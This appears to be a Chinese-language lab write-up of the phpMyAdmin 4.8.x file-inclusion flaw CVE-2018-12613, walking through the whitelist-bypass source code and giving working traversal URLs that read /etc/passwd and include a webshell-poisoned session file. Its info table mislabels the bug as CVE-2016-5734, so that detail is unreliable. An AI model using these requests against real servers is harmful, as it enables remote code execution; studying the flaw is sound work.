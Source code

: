 ```yaml
---
# 当前页面内容标题
title: CVE-2018-12613
# sidebar: heading
# 当前页面图标
icon: note
# 分类
category:
    - CVE
tag:
    - phpmyadmin
    - php
    - 文件包含
sticky: false
# 是否收藏在博客主题的文章列表中，当填入数字时，数字越大，排名越靠前。
star: false
# 是否将该文章添加至文章列表中
article: true
# 是否将该文章添加至时间线中
timeline: true
# sidebar: heading
order: 1
date: 2023-02-03
# 浏览量
pageview: true
---
```


## 漏洞详情

`index.php`页面未对`target`参数进行有效过滤，导致的文件包含漏洞

| 漏洞名称        | phpMyAdmin文件包含漏洞（CVE-2016-5734）              |
| --------------- | ---------------------------------------------------- |
| <b>发布时间</b> | <b>2018年06月21日</b>                                |
| <b>漏洞编号</b> | <b>CVE-2016-5734</b>                                 |
| <b>威胁类型</b> | <b>远程代码执行</b>                                  |
| <b>威胁级别</b> | <b>严重</b>                                          |
| <b>利用条件</b> | <b>- 必须登录</b>                                    |
| <b>影响版本</b> | <b>- 4.8.0版本<br>\- 4.8.0.1版本<br>\- 4.8.1版本</b> |

## 漏洞分析

首先验证文件包含

```
http://192.168.79.128:8080/index.php?target=db_sql.php?../../../../../../../etc/passwd
```

![image-20230203152934084](/CVE-2018-12613/image-20230203152934084.png)

查看源代码（index.php文件，第55行）

```php
$target_blacklist = array (
    'import.php', 'export.php'
);
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target']) // 是字符串
    && ! preg_match('/^index/', $_REQUEST['target']) // 开头不为index
    && ! in_array($_REQUEST['target'], $target_blacklist) // 目标不在黑名单范围内 
    && Core::checkPageValidity($_REQUEST['target']) // 检查页面是否存在白名单
) {
    include $_REQUEST['target'];
    exit;
}
```

重点在检查白名单这里`Core::checkPageValidity($_REQUEST['target'])`

打开`libraries\classes\Core.php`目录，第443行

```php
public static function checkPageValidity(&$page, array $whitelist = [])
{
    if (empty($whitelist)) {
        $whitelist = self::$goto_whitelist;
    }
    if (! isset($page) || !is_string($page)) {
        return false;
    }
    if (in_array($page, $whitelist)) {
        return true;
    }
    
    $_page = mb_substr(
        $page,
        0,
        mb_strpos($page . '?', '?')
    );
    if (in_array($_page, $whitelist)) {
        return true;
    }
    $_page = urldecode($page);
    $_page = mb_substr(
        $_page,
        0,
        mb_strpos($_page . '?', '?')
    );
    if (in_array($_page, $whitelist)) {
        return true;
    }
    return false;
}
```

这里会对`target`进行白名单验证，该函数有两个值，如果第二个值为空，则会使用默认白名单（第31行）

```php
public static $goto_whitelist = array(
    'db_datadict.php',
    'db_sql.php',
    'db_events.php',
    'db_export.php',
    'db_importdocsql.php',
    'db_multi_table_query.php',
    'db_structure.php',
    'db_import.php',
    'db_operations.php',
    'db_search.php',
    'db_routines.php',
    'export.php',
    'import.php',
    'index.php',
    'pdf_pages.php',
    'pdf_schema.php',
    'server_binlog.php',
    'server_collations.php',
    'server_databases.php',
    'server_engines.php',
    'server_export.php',
    'server_import.php',
    'server_privileges.php',
    'server_sql.php',
    'server_status.php',
    'server_status_advisor.php',
    'server_status_monitor.php',
    'server_status_queries.php',
    'server_status_variables.php',
    'server_variables.php',
    'sql.php',
    'tbl_addfield.php',
    'tbl_change.php',
    'tbl_create.php',
    'tbl_import.php',
    'tbl_indexes.php',
    'tbl_sql.php',
    'tbl_export.php',
    'tbl_operations.php',
    'tbl_structure.php',
    'tbl_relation.php',
    'tbl_replace.php',
    'tbl_row_action.php',
    'tbl_select.php',
    'tbl_zoom_select.php',
    'transformation_overview.php',
    'transformation_wrapper.php',
    'user_password.php',
);
```

然后对`target`进行验证，在验证过程中会对`?`进行处理，所以只要`?`这边的参数正确即可

最后回到`index.php`，这里没有对target参数进行任何处理，所以造成了文件包含的漏洞

```php
include $_REQUEST['target'];
exit;
```

## 漏洞利用

这里是主要`phpmyadmin`会将用户的操作记录到session文件中，这里可以将一句话木马添加到访问的路径或查询操作中就可以对session文件进行文件包含

而最关键的文件名称是`sess_ + cookie中phpmyadmin的值`

也就是`sess_2ad097ff8afe0d9fa118887a4bb4b0f5`

步骤1：

![image-20230203160526320](/CVE-2018-12613/image-20230203160526320.png)

可以查看一下`/tmp/sess_2ad097ff8afe0d9fa118887a4bb4b0f5`

![image-20230203160711779](/CVE-2018-12613/image-20230203160711779.png)

步骤2：

访问地址：

```url
http://192.168.79.128:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_2ad097ff8afe0d9fa118887a4bb4b0f5
```

![image-20230203160727712](/CVE-2018-12613/image-20230203160727712.png)

